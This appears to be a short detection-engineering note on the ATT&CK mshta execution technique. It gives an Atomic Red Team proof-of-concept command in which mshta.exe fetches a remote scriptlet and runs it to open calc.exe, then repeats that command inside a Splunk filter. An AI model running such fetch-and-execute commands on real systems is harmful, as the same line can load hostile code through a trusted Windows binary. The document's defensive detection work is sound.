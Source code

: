 #Mshta -- T1170

#Description

Mshta.exe is a Microsoft Utility that allows for the execution of HTML applications. An attacker can leverage mshta.exe to execute malicious .hta files and execute Javascript or VBScript using the trusted Windows Utility. Red Atomic/Canary provided a proof-of-concept for this ATT&CK Mitre Execution Technique. Here's an example command that leverages using mshta.exe to launch calc.exe

#Attack 
mshta.exe javascript:a=(GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct')).Exec();close();

![mshta](https://user-images.githubusercontent.com/36422282/55601275-2a38fa00-572e-11e9-838d-f32599684b26.PNG)


*NOTE* This filter is specific and relates to the specific attack itself, as required to show correctnes within writing filters

#Splunk Filter

host="DESKTOP-EHTEINI" ParentCommandLine="mshta.exe  javascript:a=(GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct')).Exec();close();"






